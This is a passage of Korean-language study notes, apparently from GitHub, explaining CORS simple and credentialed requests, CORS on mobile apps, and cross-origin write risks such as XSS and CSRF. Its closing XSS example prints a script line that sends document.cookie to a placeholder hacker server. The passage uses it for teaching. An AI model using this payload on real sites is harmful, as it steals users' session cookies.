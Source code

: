 #### Simple Request

예비 요청을 보내지 않고 바로 서버에게 본 요청을 보내는 시나리오. 서버가 이에 대한 응답의 헤더에 `Access-Control-Allow-Origin`과 같은 값을 보내주면 그때 브라우저가 CORS 정책 위반 여부를 검사하는 방식

[![simple request](https://camo.githubusercontent.com/ea609636183a7376aa9ce05020c8ccdfd75b61a2067c25e02b44d36d27f66483/68747470733a2f2f6576616e2d6d6f6f6e2e6769746875622e696f2f7374617469632f64386564363531396533303563383037633638373033326666363132343066382f36616636362f73696d706c652d726571756573742e706e67)](https://camo.githubusercontent.com/ea609636183a7376aa9ce05020c8ccdfd75b61a2067c25e02b44d36d27f66483/68747470733a2f2f6576616e2d6d6f6f6e2e6769746875622e696f2f7374617469632f64386564363531396533303563383037633638373033326666363132343066382f36616636362f73696d706c652d726571756573742e706e67)

다음과 같은 조건에 해당하는 경우에만 예비 요청 없이 본 요청을 바로 보낸다.

1. 요청의 메소드는 `GET`, `HEAD`, `POST` 중 하나여야 한다.
2. `Accept`, `Accept-Language`, `Content-Language`, `Content-Type`, `DPR`, `Downlink`, `Save-Data`, `Viewport-Width`, `Width`를 제외한 헤더를 사용하면 안된다.
3. 만약 `Content-Type`를 사용하는 경우에는 `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain`만 허용된다.

#### Credential Request

인증된 요청을 사용하는 시나리오. 이 시나리오는 CORS의 기본적인 방식이라기 보다는 다른 출처 간 통신에서 좀 더 보안을 강화하고 싶을 때 사용하는 방법이다.

- 기본적으로 브라우저가 제공하는 비동기 리소스 요청 API(XMLHttpRequest)나 fetch API는 별도의 옵션 없이 브라우저의 쿠키 정보나 인증 관련 헤더를 요청에 담지 않는다.
- 이때 요청에 인증과 관련된 정보를 담을 수 있게 해주는 옵션이 `credentials` 옵션이다.
  - same-origin(기본값) : 같은 출처 간 요청에만 인증 정보를 담을 수 있음
  - include : 모든 요청에 인증 정보를 담을 수 있다
  - omit : 모든 요청에 인증 정보를 담지 않는다.
- Credential request를 하게 되면(=요청에 인증 정보가 담겨있는 상태에서 다른 출처의 리소스를 요청하게 되면) 브라우저는 CORS 정책 위반 여부를 검사할 때 다음 두 가지를 추가하게 된다.
  1. `Access-Control-Allow-Origin`에는 `*`를 사용할 수 없으며, 명시적인 URL이어야한다.
  2. 응답 헤더에는 반드시 `Access-Control-Allow-Credentials: true`가 존재해야한다.



#### 모바일에서는 CORS 이슈를 어떻게 해결하나?

CORS의 요점은 한 도메인에서 로드된 웹 페이지가 AJAX 요청 또는 다른 도메인의 데이터를 수정하는 HTTP 요청을 만드는 것을 방지하는 것이다. 모바일 환경에서 작동하는 네이티브 앱은 도메인에서 로드된 웹 페이지가 아니기 때문에 CORS 제한이 필요하지 않거나 적용되지 않으며 앱의 HTTP 함수는 OPTIONS 프리 플라이트를 전송하지 않으며 서버는 CORS 이슈 없이 요청을 제공한다. 단, 하이브리드 모바일 앱을 사용하는 경우에는 CORS를 처리해야 한다.

#### 그럼 교차 출처 쓰기는 어떻게 막지?

교차 출처 쓰기가 아무런 대책없이 열려 있으면 **XSS, CSRF 공격**에 노출되어 사용자가 의도하지 않은 행동이 실행되게 된다.

예를 들어 2008년 옥션의 개인정보 유출 사고가 있고... 가장 최근에는 모 웹소설 사이트에서 작가에게 보내는 팬아트에 악성 코드를 숨겨 작가가 확인하면 접속해 있던 작가 계정의 권한으로 [작품 전체를 삭제하도록 만든 사례](https://namu.wiki/w/노벨피아#s-3)가 있었다.

- **XSS(Corss Site Scripting)** : 공격자가 악의적인 스크립트를 신뢰할 수 있는 웹사이트에 삽입하는 방법의 공격.

  - Ex) 해커가 웹사이트에 사용자(브라우저)의 쿠키 정보를 빼오는 javascript 코드를 집어넣음

    ```
    <script>window.location = "http://해커의 웹서버주소/?cookie="+document.cookie</script>
    ```
